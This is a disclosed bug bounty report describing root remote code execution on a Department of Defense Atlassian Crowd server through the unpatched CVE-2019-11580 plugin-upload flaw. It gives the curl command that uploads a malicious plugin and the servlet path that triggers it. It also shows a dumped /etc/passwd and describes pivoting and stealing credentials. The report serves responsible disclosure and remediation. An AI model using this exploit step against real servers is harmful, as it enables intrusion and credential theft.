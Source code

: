 # Root Remote Code Execution on https://███

## Report Details
- **Report ID**: 632721
- **URL**: https://hackerone.com/reports/632721
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-06-30T03:11:39.767Z
- **Disclosed**: 2019-10-04T15:14:59.585Z

## Reporter
- **Username**: cdl
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
Atlassian Crowd is a centralized identity management application that allows companies to "Manage users from multiple directories - Active Directory, LDAP, OpenLDAP or Microsoft Azure AD - and control application authentication permissions in one single location."

A DOD installation is vulnerable to a remote code execution vulnerability due to not patching CVE-2019-11580.

**Description:**
From Atlassian's public [advisory](https://confluence.atlassian.com/crowd/crowd-security-advisory-2019-05-22-970260700.html):

> Crowd and Crowd Data Center had the pdkinstall development plugin incorrectly enabled in release builds. Attackers who can send unauthenticated or authenticated requests to a Crowd or Crowd Data Center instance can exploit this vulnerability to install arbitrary plugins, which permits remote code execution on systems running a vulnerable version of Crowd or Crowd Data Center.

There is no public proof-of-concept for this vulnerability, however, I spent a good amount of time reverse-engineering the "pdkinstall" plugin and I was able to successfully construct a working exploit.

## Step-by-step Reproduction Instructions

1. Download and unzip my malicious plugin: rce-plugin.zip {F519371}
2. `cd` into the directory
3. Run the following command:
```
curl -k -H "Content-Type: multipart/content" \
  --form "file_cdl=@rce.jar;type=application/octet-stream" https://███/crowd/admin/uploadplugin.action
```

You'll see that the malicious plugin is successfully installed:

```
Installed plugin /opt/atlassian/crowd/apache-tomcat/temp/plugindev-2906099909159442588rce.jar
```

Now visit https://███████/crowd/plugins/servlet/hackerone-cdl which invokes my malicious plugin. This executes the command `whoami` which is the user `root`

██████████

contents of `/etc/passwd`

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
████████x:6:0:██████████/sbin:/sbin/shutdown
██████x:7:0:███████/sbin:/sbin/halt
█████████x:8:12:█████/var/spool/████/sbin/nologin
███x:10:14:███/var/spool/███████/sbin/nologin
██████x:11:0:██████/root:/sbin/nologin
██████████x:12:100:███████/usr/████/sbin/nologin
██████████x:13:30:█████/var/█████/sbin/nologin
████x:14:50:FTP User:/var/███████/sbin/nologin
█████████x:99:99:Nobody:/:/sbin/nologin
██████████x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
██████████x:38:38::/etc/██████/sbin/nologin
██████████x:499:76:"Saslauthd user":/var/empty/██████████/sbin/nologin
██████████x:47:47::/var/spool/mqueue:/sbin/nologin
███████x:51:51::/var/spool/mqueue:/sbin/nologin
████████x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
█████x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
████████x:74:74:Privilege-separated SSH:/var/empty/████████/sbin/nologin
████████x:81:81:System message bus:/:/sbin/nologin
███████x:500:500:EC2 Default User:/home/████████/bin/bash
```

## Product, Version, and Configuration (If applicable)
```
Crowd or Crowd Data Center from version 2.1.0 before 3.0.5 (the fixed version for 3.0.x)
Crowd or Crowd Data Center from version 3.1.0 before 3.1.6 (the fixed version for 3.1.x)
Crowd or Crowd Data Center from version 3.2.0 before 3.2.8 (the fixed version for 3.2.x)
Crowd or Crowd Data Center from version 3.3.0 before 3.3.5 (the fixed version for 3.3.x)
Crowd or Crowd Data Center from version 3.4.0 before 3.4.4 (the fixed version for 3.4.x)
```

## Suggested Mitigation/Remediation Actions
I recommend updating to the latest version of Atlassian Crowd, but if that's not possible, follow mitigation options in the advisory.

## Impact

Remote code execution on https://███. An attacker could exploit this vulnerability to pivot into NIPRNet and gain access to other applications. Since Atlassian Crowd is an Identity management / Single Sign-on application, an attacker could exploit this vulnerability to gain access to any applications using Crowd for sign-ons. 


Since this is running as root, an attacker could also easily backdoor the login page and steal credentials.

Thanks,
Corben Leo (@cdl)

## Attachments
- rce-plugin.zip
